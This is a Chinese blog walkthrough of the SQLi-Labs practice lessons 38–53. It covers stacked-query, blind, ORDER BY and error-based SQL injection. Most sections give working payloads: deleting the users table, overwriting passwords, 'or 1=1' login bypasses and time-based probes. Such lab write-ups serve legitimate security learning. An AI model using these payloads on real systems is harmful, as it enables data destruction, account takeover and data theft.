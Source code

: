 ```yaml
---
layout: post
title: SQL注入（十四）
desc: ""
keywords: ""
date: 2016-11-19
categories: []
tags: []
---
```


[audio mp3="http://chiahao.top/wp-content/uploads/2016/11/花たん-ロミオとシンデレラ.mp3"][/audio]

<h2>&gt; Background Music: ロミオとシンデレラ</h2>

<h2>Less-38</h2>

<h3>Stacked Query</h3>

<a href="http://www.sqlinjection.net/stacked-queries">参考资料</a>

一种全新的思路，除了完成闭合去查询以外，还可以去通过闭合分号来执行其他的SQL命令

<img src="http://oc42vgpoj.bkt.clouddn.com/Less38_stacked1_res.png" />

<pre class="lang:tsql decode:true">?id=0'; delete from users +--+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/Less38_stacked2_res.png" />

堆叠查询是指在一次查询过程中执行多条SQL指令，我们可以通过这一点去混入我们想要执行的恶意指令，从而做到远比查询数据更多的事情。

以往我们利用UNION语句的攻击仅仅局限于了SELECT语句，但利用这种方式我们就可以去执行更多的语句，从一个简单的查询语句获取更多控制权限。

<h3>局限</h3>

<ol>
<li>堆叠查询并不总是适用。大多数情况下由于API或者数据库引擎不支持，我们没办法进行这种攻击。而且我们如果没有足够的执行权限，就不能对数据进行修改，或者其他手段的攻击。</li>
</ol>

<table>
<thead>
<tr>
  <th align="center">Database</th>
  <th align="center">    API   </th>
  <th align="center">    Result    </th>
</tr>
</thead>
<tbody>
<tr>
  <td align="center">  MySQL  </td>
  <td align="center">    PHP   </td>
  <td align="center">Not Supported</td>
</tr>
<tr>
  <td align="center">   SQL   </td>
  <td align="center">  Any API </td>
  <td align="center">   Supported  </td>
</tr>
<tr>
  <td align="center">  Oracle </td>
  <td align="center">  Any API </td>
  <td align="center">Not Supported</td>
</tr>
<tr>
  <td align="center">  MySQL  </td>
  <td align="center">Other API</td>
  <td align="center">   Supported  </td>
</tr>
</tbody>
</table>

<ol>
<li>查询结果可能无法获取。如果只是需要去挖掘数据的话，还是推荐用UNION语句，因为即使我们能够执行两条查询语句，程序往往被设计成只返回一条语句的结果，我们需要的数据可能没办法挖掘出来。</li>
</ol>

<h3>修改数据</h3>

<pre class="lang:tsql decode:true">?id=1'; update users set password='You are hacked' where username='Dumb' +--+</pre>

比如我们可以通过语句来修改密码数据，但这种攻击方法需要建立在我们掌握了这个数据库足够信息的前提下，比如已经获取到了这个数据库名  ，表名，列名等。

<h3>调用存储过程</h3>

待填

<h2>Less-39</h2>

整数型，同理

<pre class="lang:tsql decode:true ">?id=1 ; update users set password='You are hacked' where username='Dumb' +--+</pre>

<h2>Less-40</h2>

盲注，闭合注意一下

<pre class="lang:tsql decode:true ">?id=1'); update users set password='hellooooo' where username='Dumb'  +--+</pre>

<h2>Less-41</h2>

盲注，同40，不过是整数型

<h2>Less-42</h2>

POST型的注入，进去以后发现可以Create New User或者Change Passwd，但是作者显而易见是想让你"Hack your way in"

<h3>Fuzz</h3>

用户名处没有注入点，在密码处注入成功，万能密码绕过登录框

本来以为重点在登录之后，结果发现登陆进去以后是修改密码的功能，而且都被过滤掉了。

原来重点在登录密码的那个位置，可以利用他没有过滤这点去进行堆叠查询，创建新表或者执行其他命令

<h3>Payload</h3>

login_user=123&amp;login_password=1'; create table testttt like users # &amp;mysubmit=Login

<img src="http://oc42vgpoj.bkt.clouddn.com/Less42_puzzled.png" />
本来在想会不会因为前面的登录失败不会执行后面的建表命令，但测试结果表明即使前面失败了，后面的也照常执行了。想想也对，SQL会把这些命令都带进去，即使前面密码是错的后面也会带入执行

<h2>Less-43</h2>

<h3>Fuzz</h3>

随便输个引号报错了，发现好像是用引号加括号闭合的，我们构造一下

<img src="http://oc42vgpoj.bkt.clouddn.com/Less43_fuzz.png" />

<pre class="lang:tsql decode:true ">login_user=123&amp;login_password=123%27) or 1=1 # &amp;mysubmit=Login</pre>

成功绕过登陆判断

后面就同Less-42了

<pre class="lang:tsql decode:true">login_user=123&amp;login_password=123%27); create table less43 like users # &amp;mysubmit=Login</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/Less43_res.png" />

<h2>Less-44</h2>

同Less-43，换成了盲注

<pre class="lang:tsql decode:true ">login_user=123&amp;login_password=123%27) or sleep(3) # &amp;mysubmit=Login</pre>

判断闭合，唉或者直接用上题的技巧也可以哦

<h2>Less-45</h2>

<pre class="lang:tsql decode:true ">login_user=123&amp;login_password=123') or 1=1 # &amp;mysubmit=Login</pre>

<h2>Less-46</h2>

这次玩法变了，需要给sort参数赋予一个数值，返回一个表格。sort参数应该是决定排序方法的，因为不同值返回的顺序不同

Order by注入

<h3>Fuzz</h3>

据说?sort=1+desc和?sort=1+acs两个返回结果不同的话会存在注入，desc是倒序排列，acs是正序排列。原理待分析

<h3>Payload</h3>

<pre class="lang:tsql decode:true ">?sort=1' and (ascii(substr((select database()) ,1,1))) = 115 and if(1=1, sleep(1), null)</pre>

<h2>Less-47</h2>

其实46和47也可以用报错注入啊…

<pre class="lang:tsql decode:true">?sort=1' and (select 1 from (select count(*),
concat(0x3a,0x3a,(select table_name from information_schema.tables limit 1,1),
0x3a,0x3a,floor(rand(0)*2))name from information_schema.tables group by name)x) --+
</pre>

<h2>Less-48 &amp; Less-49</h2>

换成盲注了

<pre class="lang:tsql decode:true ">?sort=1 and sleep(1) +--+

?sort=1' and sleep(1) +--+
</pre>

<h2>Less-50 &amp; Less-51</h2>

堆叠查询

<pre class="lang:tsql decode:true">?sort=1; delete from users +--+
</pre>

<h2>Less-52 &amp; Less-53</h2>

换成盲注了

<pre class="lang:tsql decode:true ">?sort=1 and sleep(1) +--+

?sort=1' and sleep(1) +--+</pre>

<hr />

SQLi-Labs系列完结！

庆祝撒花！

真正刷了一遍收获还是很大的，但还是会觉得还有很多好玩的技巧可以掌握。以后再说吧